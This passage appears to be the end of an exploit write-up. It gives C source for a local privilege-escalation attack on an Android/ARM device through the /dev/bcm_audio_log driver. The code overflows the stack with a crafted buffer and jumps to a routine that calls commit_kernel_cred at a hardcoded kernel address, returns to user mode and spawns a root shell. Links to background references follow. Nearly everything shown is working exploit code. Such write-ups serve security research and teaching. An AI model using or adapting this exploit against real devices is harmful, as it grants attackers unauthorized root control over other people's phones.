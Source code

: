 ```c
                                      // result saved in r0
                                      
        "ldr     R3, =0xc00790dc\n\t" // move commit_kernel_cred address into r3
        "blx     R3\n\t"              // call commit_kernel_cred
                                      // should be root
        "mov r0, #0x10\n\t"           // register flags for user land mode
        "msr cpsr_c, r0\n\t"          // switch back to user land
        "ldr r0, =shell\n\t"          // load the address of the shell function into r0
        "blx r0\n\t"                  // branch to the address in r0
   );
}

void payload() {
    uint32_t payload[164] = {0};
    int offset = 161;
  
    payload[offset++] = (uint32_t)get_root;

    // offset the address for the rop
    char new_array[sizeof(payload) + 2] = {0};
    memcpy(new_array + 2, payload, sizeof(payload));

    // stack go boom boom!
    write(fd, new_array, sizeof(new_array));
}

int main() {
    printf("current uid: %d\n\n", getuid());

    printf("now opening bcm_audio_log\n");
    printf("[*] address of shell: %p\n", shell);
    
    fd = open("/dev/bcm_audio_log", O_WRONLY);
    payload();
}
```



# References

\[0\]: https://en.wikipedia.org/wiki/Android_Debug_Bridge \
\[1\]: https://www.youtube.com/watch?v=g62FXds2pt8 \
\[2\]: https://developer.arm.com/documentation/ddi0406/b/System-Level-Architecture/The-System-Level-Programmers--Model/ARM-processor-modes-and-core-registers/ARM-processor-modes?lang=en#CIHGHDGI
